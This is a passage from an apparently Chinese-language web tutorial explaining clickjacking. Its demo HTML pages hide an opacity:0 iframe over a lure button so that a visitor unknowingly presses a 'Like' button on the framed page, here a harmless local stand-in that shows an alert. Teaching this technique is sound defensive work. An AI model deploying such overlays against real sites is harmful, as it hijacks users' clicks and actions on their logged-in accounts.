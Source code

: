 ```html
  </body>
</html>
```

在上面这个示例中，我们有一个半透明的 `<iframe src="facebook.html">`，我们可以看到，它位于按钮之上。点击按钮实际上会点击在 iframe 上，但这对用户不可见，因为 iframe 是透明的。

结果，如果访问者登陆了 Facebook（“记住我”通常是打开的），那么这个行为就会点一个“赞”。Twitter 上是 “Follow” 按钮。

下面是相同的示例，但 `iframe` 的透明度设置为了 `opacity:0`，更符合实际情况：

```html
<!-- index.html -->
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
  </head>

  <body>
    <style>
      iframe {
        width: 400px;
        height: 100px;
        position: absolute;
        top: 5px;
        left: -14px;
        opacity: 0;
        z-index: 1;
      }
    </style>

    <div>点击即可变得富有：</div>

    <!-- 来自受害网站的 url -->
    <iframe src="facebook.html"></iframe>

    <button>点这里！</button>

    <div>……你很酷（我实际上是一名帅气的黑客）！</div>
  </body>
</html>
```

```html
<!-- facebook.html -->
<!DOCTYPE html>
<html>
  <body style="margin:10px;padding:10px">
    <input
      type="button"
      onclick="alert('Like pressed on facebook.html!')"
      value="I LIKE IT !"
    />
  </body>
</html>
```
